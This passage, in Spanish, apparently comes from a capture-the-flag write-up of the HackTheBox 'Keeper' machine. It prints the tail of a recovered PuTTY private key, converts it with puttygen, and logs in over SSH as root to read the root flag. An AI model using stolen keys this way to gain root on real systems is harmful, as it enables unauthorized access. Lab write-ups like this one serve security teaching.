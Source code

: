~~~bash
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
~~~
Luego utilizando puttygen se la cambia al formato permitido.
~~~bash
puttygen ssh_putty -O private-openssh -o ssh_keeper
~~~
Finalmente ya se puede ingresar como root.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ahora que ya se tiene acceso a root, solo es cosa de leer la root flag.
~~~bash
ssh -i ssh_keeper root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# cd /root/
root@keeper:~# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido


